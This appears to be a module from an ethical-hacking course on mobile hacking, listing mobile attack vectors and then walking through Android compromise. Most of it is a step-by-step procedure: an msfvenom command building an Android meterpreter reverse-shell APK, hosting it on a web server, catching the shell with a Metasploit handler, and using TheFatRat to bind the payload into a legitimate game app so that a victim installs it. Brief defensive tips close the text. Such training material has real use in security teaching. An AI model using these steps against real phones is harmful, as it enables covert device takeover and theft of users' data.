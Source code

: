﻿**Module 17**

**Mobile hacking**

In todays world mobile security is big question because most person use mobile devices in globally. So the device security also has a major factor. Because if mobile device get compromised by hacker he can gain every data about the user.

**Attacking vector of mobile hacking** 

**Point 1 – Device** 

Browser: 

Through browser attacker can perform social engineering attack, he also become man in the middle attack, clickjacking, data caching.

Phone & SMS :

Here also hacker perform social engineering attack, he send the direct message to the victim like he won the prizes or lottery and in that message link also was provided so victim click that link and visit the hacker web page.

Apps:

Attacker or hacker create malicious app with premium content. So it attract the user and and download the app and become the victim.

**POINT 2 – Network**

An user easily use public wifi which is not safe most of the time. Because through wifi packet sniffing, credential dumping, man in the attack can be performed easily.

Lets perform attack with Metasploit

First create payload and than transfer it to the  victim

As far as we had seen this command many time that we had created payload with msfvenom

Command :- msfvenom -p android/meterpreter/reverse\_tcp LHOST=\_\_\_\_ LPORT=\_\_\_\_ X > /root/Desktop/reverse.apk

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.001.png)

Paste this payload to the kali webserver

Command :- cp reverse.apk /var/www/html/asad

Open the kali website

Comman:- service apache2 start

Open the link to the android browser.

Link :- <http://192.168.1.178/asad>

We got the file, save It & install it and  give all the permission what it need.

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.002.jpeg)

Know open the Metasploit and repeat the process, 

- use exploit/multi/handler/ 
- set payload android/meterpreter/reverse\_tcp
- set lhost & rport 
- run 

our listener is open know lets open our payload.

As soon as we open the payload 

We got the shell.

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.003.png)

We can see here, we run the command sysinfo, it reveal the information.


Before installing any apk first check it, choose your safe side to be prevent from hacker.

There is a website which check the apk, it is online tool.

Source :- <https://www.sisik.eu/apk-tool>

And before installing upload that file there and check which type of permission is taking

If we find malicious ignore it.

Lets see another method of android hacking.

Basically these days attacker send the apk formate apps or broadcast the app for the user to install the app

For this attack we will use FATRAT tool to bind the legitimate app with  payload.

Source :- <https://github.com/screetsec/TheFatRat>

Run the tool:

- git clone https://github.com/Screetsec/TheFatRat.git
- cd TheFatRat
- chmod +x setup.sh && ./setup.sh
- cd TheFatRat
- chmod +x chk\_tools 
- ./chk\_tools

Boot the fat rat

- Than select the option 5 – Backdooring original apk
- Give LHOST & LPORT 
- Give the path of original apk which we downloaded that is flappy bird
- Choose the payload, option no 3 – android/meterpreter/reverse\_tcp
- Select tool no 3 – msfvenom  embedded method & type yes.
- Our payload is binded to the original apk
- Cp that file to the kali server.
- Start the apache server.
- Go to the victim phone .
- Enter the link and download that flappy bird file.

Know turn on the listener from Metasploit.

Know boot that game from android phone.

After booting we got the shell in Metasploit

Note:- don’t believe in free premium apk. It will be a trap for the user. But not all are doing this
Md Asad Ansari

Security analyst

asad@craw.in
